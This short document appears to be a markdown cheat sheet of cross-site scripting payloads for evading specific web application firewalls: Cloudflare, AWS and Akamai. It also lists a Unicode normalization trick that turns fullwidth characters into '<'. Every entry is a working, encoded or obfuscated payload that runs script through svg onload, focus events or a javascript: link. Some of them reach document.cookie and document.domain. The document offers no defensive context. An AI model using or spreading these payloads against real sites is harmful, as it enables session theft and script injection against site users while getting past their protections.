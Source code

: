 ## NFKC Unicode Normalization

```
%EF%B9%A4 -> <
%EF%B9%A5 -> <
```

## Cloudflare

```
<svg/on/onload=alert(origin)>
```

```
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
```

## AWS

```
'%22%3E%3Casuka%20AutoFocus%20ContentEditable%20OnFocusIn%3D_%3Dalert%2C_%28document.cookie%29%3E'
```

## Akamai

```
<A href="javascrip%09t&colon;eval.apply`${[jj.className+`(23)`]}`" id=jj class=alert>Click Here
```
